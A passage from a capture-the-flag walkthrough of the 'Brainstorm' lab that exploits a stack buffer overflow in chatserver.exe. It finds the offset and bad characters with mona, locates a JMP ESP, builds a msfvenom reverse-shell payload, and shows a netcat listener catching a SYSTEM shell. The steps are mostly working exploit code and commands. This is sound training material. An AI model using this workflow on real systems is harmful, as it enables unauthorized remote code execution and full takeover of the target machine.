4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2D
```
Copy the output and place it into the payload variable of the `exploit.py` script.

```
...
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2D"
...
```
We have generated this to find the offset variable. An offset refers to the distance between the beginning of a buffer and the location of a specific data element within that buffer. It means a program attempts to write more data to a buffer than it can hold. If an attacker can control the data written beyond the buffer’s end, they can overwrite data in adjacent memory, such as the program’s return address or other important information. By manipulating the offset of the data they provide, an attacker can control which memory locations are overwritten and potentially gain unauthorized access or execute arbitrary code. 

In Immunity Debugger, press the X symbol to stop the execution of `chatserver.exe`.



Re-open `chatserver.exe` using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run `exploit.py` (which we will run multiple times with incremental modifications).

Run the modified `exploit.py` script.
```
python3 exploit.py
```
The script should crash `chatserver.exe` again. This time, in the command input box at the bottom of the screen of Immunity Debugger, run the following mona command, changing the distance to the same length as the pattern you created:
```
!mona findmsp -distance 2500
```
Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).

In this output you should see a line which states:



Update your `exploit.py` script and set the offset variable to this value (in this case it was 2012). Set the `payload` variable to an empty string again. Set the `retn` variable to `"BBBB"`.
```
...
offset = 2012
overflow = "A" * offset
retn = "BBBB"
padding = ""
prefix = ""
payload = ""
...
```
Restart `chatserver.exe` in Immunity and run the modified `exploit.py` script again. The EIP register should now be overwritten with the 4 B's (`42424242`).



Now let's find the bad chars.

Generate a bytearray using mona, and exclude the null byte (`\x00`) by default. Note the location of the `bytearray.bin` file that is generated (if the working folder was set during the Mona configuration, then the location should be `C:\mona\chatserver\bytearray.bin`).
```
!mona bytearray -b "\x00"
```
Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from `\x01` to `\xff`:
```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
Update your `exploit.py` script and set the `payload` variable to the string of bad chars the previous script generated.
```
...
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
...
```

Restart `chatserver.exe` in Immunity and run the modified `exploit.py` script again. Take note of the address to which the ESP register points  (in this case it was `013CEEA8`)



Use it in the following mona command:
```
!mona compare -f C:\mona\chatserver\bytearray.bin -a 00B419E4
```
A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. This window shows the results of the comparison, indicating any characters that are different in memory to the contents of the generated `bytearray.bin` file.



Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

The first badchar in the list should be the null byte (\x00) since we already removed it from the file. Take note of any others. 

Normally, we need to repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist. In this case, we already have the "Unmodified" status, then, the only badchar present is the null byte (\x00).



We now need to review the program for any unprotected functions
```
!mona modules
``` 



From the above we can see that ASLR is disabled (false) for both the `essfunc.dll` and `chatserver.exe`. 

Now, let's look for a JMP ESP using mona.

With the `chatserver.exe` either running or in a crashed state, run the following mona command, making sure to update the `-cpb` option with all the badchars you identified (in this case they are just `\x00`):
```
!mona jmp -r esp -cpb "\x00"
```
This command finds all `jmp esp` (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should be displayed in the "Log data" window (use the Window menu to switch to it if needed).



Choose an address and update your `exploit.py` script, setting the `retn` variable to the address, written backwards (since the system is little endian). For example if the address is `\x01\x02\x03\x04` in Immunity, write it as `\x04\x03\x02\x01` in your exploit.

I chose the address `0x625014DF` then I updated the `exploit.py` as follows:

```
...
retn = "\xDF\x14\x50\x62"
...
```
Now let's generate the payload to run in the remote machine and update its IP in the `exploit.py`.
```
...
ip = <TARGET_IP>
...
```

Run the following `msfvenom` command using your Kali VPN IP as the `LHOST` and updating the `-b` option with all the badchars you identified (`\x00`):
```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

Copy the generated strings and integrate them into your `exploit.py` script payload variable using the following notation:
```
payload = "\xdd\xc1\xba\xfa\x28\xf7\x40\xd9\x74\x24\xf4\x5e\x33\xc9"
payload += "\xb1\x52\x31\x56\x17\x03\x56\x17\x83\x14\xd4\x15\xb5\x14"
...
payload += "\x35"
```

Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (`\x90`) bytes:
```
padding = "\x90" * 16
```
Exploit!

With the correct IP, offset, return address and payload set, you can now exploit the buffer overflow to get a reverse shell.

Start a netcat listener on your Kali box using the `LPORT` you specified in the `msfvenom` command and the correct port (4444 if you didn't change it).

```
$ nc -lnvp 4444
```
Run the exploit one last time and your `netcat` listener should receive a reverse shell!

```
python3 exploit.py
```
```
$ nc -lnvp 4444             
listening on [any] 4444 ...
connect to [<redacted>] from (UNKNOWN) [10.10.74.83] 49160
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```
## Root flag

In the target system, the root flag is located in `C:\Users\drake\Desktop\root.txt`.
```
C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd C:\Users
cd C:\Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C87F-5040

 Directory of C:\Users

08/29/2019  10:20 PM    <DIR>          .
08/29/2019  10:20 PM    <DIR>          ..
08/29/2019  10:21 PM    <DIR>          drake
11/21/2010  12:16 AM    <DIR>          Public
               0 File(s)              0 bytes
               4 Dir(s)  19,703,803,904 bytes free

C:\Users>cd drake
cd drake

C:\Users\drake>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C87F-5040

 Directory of C:\Users\drake

08/29/2019  10:21 PM    <DIR>          .
08/29/2019  10:21 PM    <DIR>          ..
08/29/2019  10:21 PM    <DIR>          Contacts
08/29/2019  10:55 PM    <DIR>          Desktop
08/29/2019  10:21 PM    <DIR>          Documents
08/29/2019  10:27 PM    <DIR>          Downloads
08/29/2019  10:21 PM    <DIR>          Favorites
08/29/2019  10:21 PM    <DIR>          Links
08/29/2019  10:21 PM    <DIR>          Music
08/29/2019  10:21 PM    <DIR>          Pictures
08/29/2019  10:21 PM    <DIR>          Saved Games
08/29/2019  10:21 PM    <DIR>          Searches
08/29/2019  10:21 PM    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)  19,703,803,904 bytes free

C:\Users\drake>cd Desktop
cd Desktop

C:\Users\drake\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C87F-5040

 Directory of C:\Users\drake\Desktop

08/29/2019  10:55 PM    <DIR>          .
08/29/2019  10:55 PM    <DIR>          ..
08/29/2019  10:55 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  19,703,803,904 bytes free

C:\Users\drake\Desktop>type root.txt
type root.txt
<redacted>
```

With this last step, we have finished the Brainstorm room! I hope this guide may have been useful for you!
